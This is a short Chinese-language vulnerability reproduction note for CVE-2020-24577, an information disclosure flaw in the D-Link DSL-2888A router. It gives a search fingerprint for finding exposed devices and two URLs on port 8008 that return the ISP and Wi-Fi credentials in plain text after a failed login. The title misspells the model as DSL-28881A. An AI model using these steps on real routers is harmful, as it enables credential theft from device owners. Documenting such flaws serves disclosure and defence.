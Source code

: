 # D-Link DSL-28881A 信息泄露 CVE-2020-24577

## 漏洞描述

通过物理连接或无线访问建立与网络的连接后，恶意用户可以通过直接浏览以下URL来获取纯文本格式的Internet提供商连接用户名和密码，以及无线路由器的纯文本格式的用户名和密码

## 漏洞影响

```
D-Link DSL-2888A
```

## 网络测绘

```
body="DSL-2888A"
```

## 漏洞复现

登录页面输入任意密码建立连接



![](images/202202162223056.png)

跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误

访问下列两个连接

http://xxx.xxx.xxx.xxx:8008/tmp/cfg/lib_cfg_cfgcmd
http://xxx.xxx.xxx.xxx:8008/tmp/.nvram

![](images/202202162223303.png)



- 连接Wifl或物理连接Wifi才能访问